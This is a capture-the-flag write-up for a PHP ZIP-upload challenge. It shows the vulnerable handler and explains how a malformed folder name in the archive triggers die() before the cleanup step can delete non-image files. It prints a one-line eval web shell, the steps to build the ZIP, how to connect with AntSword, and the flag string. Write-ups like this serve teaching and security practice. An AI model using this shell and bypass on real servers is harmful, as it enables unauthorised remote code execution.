# Review 審計


```php
<?php
if(isset($_POST["submit"])){
    if(!isset($_FILES["file"])){
        die("No file uploaded");
    }
    else if($_FILES["file"]["size"] > 2097152){
        die("File size is too large");
    }
    else if(pathinfo($_FILES["file"]["name"], PATHINFO_EXTENSION) != "zip"){
        die("File extension is not supported");
    }
    else if(file_get_contents($_FILES["file"]["tmp_name"], FALSE, NULL, 0, 2) != "PK"){
        die("File is not a zip file");
    }
    else if(!move_uploaded_file($_FILES["file"]["tmp_name"], "uploads/" . $_FILES["file"]["name"])){
        die("File is not uploaded");
    }
    else{
        $dir = "uploads/" . pathinfo($_FILES["file"]["name"], PATHINFO_FILENAME);
        if(!file_exists($dir)){
            mkdir($dir);
        }
        else{
            die("Directory is already exists");
            return;
        }
        $zip = new ZipArchive;
        $res = $zip->open("uploads/" . $_FILES["file"]["name"]);
        if($res === TRUE){
            for($i = 0; $i < $zip->numFiles; $i++) {
                $filename = $zip->getNameIndex($i);
                $fileinfo = pathinfo($filename);
                copy("zip://"."./uploads/" . $_FILES["file"]["name"]."#".$filename, $dir . "/". $fileinfo['basename']) or die("Unzip failed!");
            }                 
            $zip->close();

            $files = scandir($dir);
            foreach($files as $file){
                if($file != "." && $file != ".."){
                    if(pathinfo($file, PATHINFO_EXTENSION) != "jpg" && pathinfo($file, PATHINFO_EXTENSION) != "png"){
                        unlink($dir . "/" . $file);
                    }
                }
            }

            unlink("uploads/" . $_FILES["file"]["name"]);
            echo "File is uploaded successfully";
        }
    }
}
?>
```

First, we examined the code and noticed that it only allows the upload of ZIP files, and it conducts a detailed inspection of the ZIP, which means that conventional methods to bypass this restriction won't work. Next, we observed that after uploading a file, the system extracts the contents into the /uploads/(zip name)/ directory, including the contents of subdirectories, although the folders themselves are not preserved. Subsequently, the system checks the types of the extracted files and removes all files except for those with .jpg or .png extensions. Therefore, if we want to execute our uploaded PHP file, we need to find a way to prevent it from being deleted. Fortunately, the line `copy("zip://"."./uploads/" . $_FILES["file"]["name"]."#".$filename, $dir . "/". $fileinfo['basename']) or die("Unzip failed!");`​ comes to our aid. This line checks for any issues during file extraction, and if there are problems, it will execute `die()`​

​​

After the `die()`​ function is executed, subsequent functions will not run, so naturally, the PHP file will not be deleted.

To successfully extract the files while causing the program to think there's an issue and thus execute the `die()`​ function, one method is to exploit a bug related to file naming in some compression software. Normally, folders or files cannot be named with the symbols`.`​ or`/`​because these symbols have special purposes in the file system. For example `/`​ is used to separate directories in a file path, and `.`​ represents the current directory. However, some software can be tricked into naming a folder with using certain methods, Before exploiting this bug, first write a web shell PHP code and rename it to `1.php`​:

```php
<?php 
@eval($_POST['cmd']);
?>
```

Afterwards, use "360 Compression Software" to add this file to a ZIP archive.

​​

Then, right-click, create a new folder, and change the folder's name to `/.`​ and confirm.

​​

​Next, you will see a folder named `.`​ inside the ZIP archive. Copy the `1.php`​ file into the `.`​ folder, and delete the one in the main directory.

Then, upload the file to the website, but since the name `1.zip`​ has already been used, change the ZIP filename to `catchme_ctf.zip`​.

​​

​Then, seeing a 'failed' message is expected, but the files inside have been successfully extracted.

Then, based on the code, deduce that the file will be in `/uploads/catchme_ctf/`​ ,  which means our file is located at `/uploads/catchme_ctf/1.php`​ .

Afterwards, you can proceed with webshell operations. Here, choose to use [AntSword](https://github.com/AntSwordProject/antSword) as an example.

​First, right-click and select 'Add'.

And enter the configuration details.

​​

Click 'Add' to complete the process

​If everything is configured correctly, you should see a message that the Add shell success.

Enter the shell device.

​​

Inside the HTML folder, you will find the file named `flag.php`​.

​​

Open it, and you will obtain the flag  `PUCTF24{y0u_h4v3_g00d_r3v13w_th3_c0d3_8d5f3a7e29b16c402e0c8918a47e03b9}`​

‍
